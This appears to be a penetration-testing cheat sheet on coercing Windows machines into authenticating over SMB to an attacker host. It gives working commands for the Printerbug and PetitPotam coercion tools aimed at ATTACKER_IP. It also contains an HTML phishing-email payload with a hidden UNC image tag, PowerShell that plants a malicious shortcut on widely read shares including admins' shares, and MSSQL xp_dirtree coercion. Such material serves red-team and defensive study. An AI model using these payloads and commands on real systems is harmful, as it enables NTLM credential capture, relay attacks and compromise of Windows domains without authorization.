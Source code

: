 # Trigger Incoming SMB Connections
## Printerbug
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py   

Simple tool to trigger SpoolService bug via RPC backconnect. Similar to dementor.py.    
`# python3 printerbug.py domain/USER:password@target.domain.local ATTACKER_IP`   
 
### Using SpoolSample
The Printerbug can also be triggered from Windows using the "SpoolSample" tool: https://ci.appveyor.com/project/CompassSecurity/spoolsample   

**Check Spooler Remotely**   
To check if the spooler is active on the remote target, there are different methods:   
- For DCs, you can use PingCastle   
- For manually checking a specific target with PowerShell, use: https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1
- For manually checking a specific target with Python, use: https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py

## PetitPotam
https://github.com/topotam/PetitPotam   

PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw function. This is possible via other protocols and functions as well ;) .
The tools use the LSARPC named pipe with inteface c681d488-d850-11d0-8c52-00c04fd90f7e because it's more prevalent.
But it's possible to trigger with the EFSRPC named pipe and interface df1941c5-fe89-4e79-bf10-463657acf44d.
It doesn't need credentials against Domain Controller.

`# python3 PetitPotam.py -d 'domain' -u 'user' -p 'password' ATTACKER_IP TARGET`   

## Phishing email with <img> tag
Payload template
```
<html>
<body>
<img src="\\<ATTACKER VM>\compass.ico" height="1" width="1" />
</body>
</html>
```

**Outlook**   
For some reason outlook only allows to embed an HTML file if it is attached through the quick access bar.
First you need to show the quick access toolbar, then customize the quick access toolbar by adding the command "Attach File" (More Commands...).
You can then attach the HTML payload to your email (Make sure you click on the dropdown and "Insert as Text")

## Shortcut
Trigger SMB connection using a shortcut, by setting its icon location to a UNC path (e.g. kali running Responder):   
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\computername\software\test.lnk")
$shortcut.IconLocation = "\\10.10.10.1\test.ico"
$shortcut.Save()
```
A good location for such a file would be a central SMB share where many people have read access. (Or a share where the IT admins are regularly connecting to...)

## MSSQL
If you happen to find an MSSQL instance where you have access (using PowerUpSQL) and you can run either 'xp_fileexist' or 'xp_dirtree', you can try to use those to trigger an authenticated ntlm connection from the SQL service account to e.g. your responder instance.
